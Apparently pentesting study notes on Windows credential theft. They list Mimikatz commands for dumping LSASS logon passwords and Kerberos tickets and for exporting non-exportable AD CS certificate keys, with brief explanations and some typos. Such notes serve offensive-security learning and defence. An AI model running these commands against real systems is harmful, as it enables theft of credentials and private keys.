 # Windows Cache Credentials

Hashes are stored in the Local Security Authority Subsystem Service (LSASS) memory space
```c
.\mimikatz.exe
privilege::debug
// Dump LSASS
sekurlsa::logonpasswords
// Do some command that interacts with a service that need kerberos - smb 
// GEt tickets
sekurlsa::tickets
```

- LSA Protection Local 

Microsoft provides the AD role Active Directory Certificate Services (AD CS) to implement a PKI, which exchanges digital certificates between authenticated users and trusted resources. If the server is installed as a Certification Authority (CA) it implement certificates across a domain.

Mimkatz.exe can export the *"non-exportable private key*" of these certificates
```c
// CryptoAPI function
crypto::capi
// Keylso service: Make non-exportable keys exportable
crypto::cng
```